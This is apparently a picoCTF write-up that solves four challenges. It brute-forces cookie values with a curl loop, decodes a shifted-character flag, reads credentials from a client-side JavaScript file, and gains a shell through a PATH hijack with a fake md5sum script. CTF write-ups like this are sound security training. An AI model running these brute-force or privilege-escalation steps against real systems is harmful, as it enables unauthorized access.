 

## Cookies

See the cookies, Each cookie value shows a different text. Use this bash code to search for pico

```
for i in {0..100}; do r=$(curl -s -L --cookie "name=$i" http://mercury.picoctf.net:64944/); echo "$r" | grep -q "pico" && echo "Found at name=$i: $r" && break; done
```


## Bookmarklet

Opening the website shows the encoded flag with the function used to encode it. We just reverse the process.

```
encrypted = "àÒÆÞ¦È¬ëÙ£ÖÓÚåÛÑ¢ÕÓ¨ÍÕÄ¦í"
key = "picoctf"
decrypted = ""

for i in range(len(encrypted)):
    e = ord(encrypted[i])
    k = ord(key[i % len(key)])
    decrypted += chr((e - k + 256) % 256)

print(decrypted)
```


## Local Authority

First entering random values for username and password and clicking on submit gives us `Login Failed`. Now inspecting the page gives us that it is checking the `secure.js` file. 
On curling the `secure.js`

```
curl http://saturn.picoctf.net:57430/secure.js
```

We get the username and password

Entering the username and password gives us the flag.


## hash-only-1

After loggin in we can see the terminal.

We can bypass and read the flag

```
echo '#!/bin/bash' > md5sum
echo '/bin/sh' >> md5sum
chmod +x md5sum
export PATH=.:$PATH
./flaghasher
```
